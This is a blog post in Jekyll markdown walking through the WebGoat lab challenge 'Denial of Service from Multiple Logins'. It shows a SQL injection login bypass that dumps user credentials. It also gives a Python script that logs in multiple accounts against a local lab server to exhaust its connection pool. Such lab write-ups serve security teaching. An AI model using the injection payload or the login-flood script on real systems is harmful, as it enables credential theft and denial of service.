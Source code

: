 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Denial of Service"
subtitle: "Denial of Service from Multiple Logins"
date:   2017-01-31 08:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Denial of Service from Multiple Logins
Instructions:

- This site allows a user to login multiple times. This site has a database connection pool that allows 2 connections. You must obtain a list of valid users and create a total of 3 logins. 

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_16/dos-start-form.jpg">

Alright so for this DoS attack we need to have the creds of at least 3 users. Let's use some SQL injection to pull all of the users in the db:

```
username: user' or '1' = '1
password: password' or '1' = '1
```

This concatenates to the following SQL statement:

```
SELECT * FROM user_system_data WHERE user_name = 'user' and password = 'password' or '1' = '1'
```

And when we input that to the login prompt:

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_16/injection-results.jpg">

Bingo! Now let's see what a login request looks like so we can create a few for our DoS attack:

```
Username=jsnow&Password=passwd1&SUBMIT=Login
```

Alright. Now let's break out some Python again and get cracking on our DoS script:

{% highlight python %}
import requests


def main():
	max_logins = 3
	accounts = {
		"jsnow":"passwd1",
		"jdoe":"passwd2",
		"jplane":"passwd3",
		"jeff":"jeff",
		"dave":"dave"
	}
	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="780D6C32240516F052FDE3EFACD410F5",
	acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")
	users_logged_in = 0
	x = 0
	while users_logged_in < max_logins:
		x += 1
		x = x % len(accounts)
		username = accounts.keys()[x]
		password = accounts[accounts.keys()[x]]
		params={
			"Username":username, 
			"Password":password,
			"SUBMIT":"Login"
		}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=63&menu=1200", 
			params=params, headers=headers, cookies = cookies)
		if r.status_code == 200:
			if "login failed" not in r.text.lower():
				users_logged_in += 1
				print ("[+] Accounts logged in: {}".format(users_logged_in))
			else:
				print ("[-] Login for {}:{} failed".format(username, password))
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=")
	print ("[*] DoS Attack Complete!")
	print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=")
	
main()
{% endhighlight %}

The basic function of this script is to send login requests for up to ```max_logins``` number of users. It loops around the credentials in ```accounts``` (which could cause a hang if we had < ```max_logins``` of valid creds), and creates requests for these users on the login URL. Let's see what happens when we run it:

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_16/dos-results.jpg">

Well, looks like the dave and jeff's accounts weren't accepted for the login, but luckily we found 3 working users. Let's see if we succeeded in DoS:

<img src="{{ site.baseurl }}/images/2017-01-31-webgoat_part_16/dos-success.jpg">

Nice! Although if 3 users logging in simultaneously overloads your login servers, you might need to rework some of your core infrastructure.